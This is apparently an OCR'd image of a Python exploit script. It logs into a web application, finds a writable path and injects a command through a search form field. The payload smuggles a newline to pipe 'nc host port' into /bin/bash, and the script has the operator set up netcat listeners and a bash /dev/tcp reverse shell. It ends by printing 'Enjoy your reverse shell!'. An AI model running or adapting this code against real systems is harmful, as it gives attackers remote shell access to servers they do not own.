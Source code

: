   ```py
      else:
          # payload = '''SniperOJ%22%0A%2Fbin%2Fbash+-c+'sh+-i+%3E%26%2Fdev%2Ftcp%2F''' + host + '''%2F''' + port + '''+0%3E%261'%0Agrep+%22SniperOJ'''
          payload = '"%%0Anc %s %d|/bin/bash %%23' % (host, port)
          payload = "search_string=Hacker&search_file_type=" + payload
          headers = {
              "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
              "Authorization": "Basic YWRtaW46ZGFudGUx",
              }
          response = session.post(url, data=payload, headers=headers, verify=False)
          content = response.text
          print(content)
  def promote_yes(hint):
      print(hint)
      return True
  def main():
      if len(sys.argv) != 7:
          print("Usage : ")
          print("        python %s [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]" % (sys.argv[0]))
          print("        python %s [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]" % (sys.argv[0]))
          print("Example : ")
          print("        python %s http://localhost/ admin admin 8.8.8.8 8888 linux" % (sys.argv[0]))
          print("        python %s http://localhost:8080/ admin admin 8.8.8.8 8888 windows" % (sys.argv[0]))
          print("Author : ")
          print("        WangYihang <wangyihanger@gmail.com>")
          exit(1)
      domain = sys.argv[1]
      username = sys.argv[2]
      password = sys.argv[3]
      host = sys.argv[4]
      port = int(sys.argv[5])
      platform = sys.argv[6]
      if platform.lower().startswith("win"):
          print("[+] Please execute the following command on your vps: ")
          print("nc -lnvp %d" % (port))
          if not promote_yes("[+] Please confirm that you have done the two command above [y/n]"):
              exit(1)
      else:
          print("[+] Please execute the following command on your vps: ")
          print("echo 'bash -c \"bash -i >/dev/tcp/%s/%d 0>&1 2>&1\"' | nc -lnvp %d" % (host, port + 1, port))
          print("nc -lnvp %d" % (port + 1))
          if not promote_yes("[+] Please confirm that you have done the two command above [y/n]"):
              exit(1)
      print("[+] Starting...")
      if not login(domain, username, password):
          print("[-] Login failed! Please check your username and password.")
          exit(2)
      print("[+] Login success!")
      print("[+] Getting writeable path...")
      path = get_write_able_path(domain)
      if path == False:
          print("[+] Get current path error!")
          exit(3)
      print("[+] Writeable Path : %s" % (path))
      print("[+] Sending payload...")
      exploit(domain, username, password, host, port, path, platform)
      print("[+] Exploit finished!")
      print("[+] Enjoy your reverse shell!")
  ```